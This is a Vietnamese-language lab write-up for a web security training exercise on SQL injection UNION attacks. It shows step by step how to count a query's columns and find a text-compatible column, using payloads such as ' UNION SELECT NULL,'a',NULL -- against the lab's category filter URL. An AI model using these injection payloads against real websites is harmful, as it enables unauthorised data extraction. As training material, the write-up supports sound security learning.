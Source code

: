 # **Lab: SQL injection UNION attack, finding a column containing text**
>  This lab contains a SQL injection vulnerability in the product category filter. The results from the query are returned in the application's response, so you can use a UNION attack to retrieve data from other tables. To construct such an attack, you first need to determine the number of columns returned by the query. You can do this using a technique you learned in a previous lab. The next step is to identify a column that is compatible with string data.  
 The lab will provide a random value that you need to make appear within the query results. To solve the lab, perform a SQL injection UNION attack that returns an additional row containing the value provided. This technique helps you determine which columns are compatible with string data. 

 # **Solution**
 Tương tự bài lab trước, đầu tiên là thêm vào URL tham số bộ lọc và phần lệnh SQL UNION:
 ```
 https://0a0000b6033ecbc4843d7cda002d00c4.web-security-academy.net/filter?category=Pets' UNION SELECT NULL,NULL,NULL-- 
 ```
 Qua đó ta xác định được truy vấn có 3 cột. Tiếp đó là xác định kiểu dữ liệu ký tự cho mỗi cột.  
 Ta thay giá trị NULL thành một kí tự bất kì, VD: 'a'
```
' UNION SELECT 'a',NULL,NULL -- 
```
Nếu có báo lỗi:
> Internal Server Error 

Nghĩa là cột đầu tiên không phải chuỗi kí tự. Tiếp tục lần lượt thay thế 'a' với các giá trị NULL còn lại:
```
' UNION SELECT NULL,'a',NULL -- 
```
Khi thành công xác định ví trí của cột chứa chuỗi kí tự, ta thay thế 'a' với giá trị nhiệm vụ yêu cầu là xong.

![image](https://i.pinimg.com/originals/5f/39/e6/5f39e6d606da1c3d603bdabfccf053f3.jpg)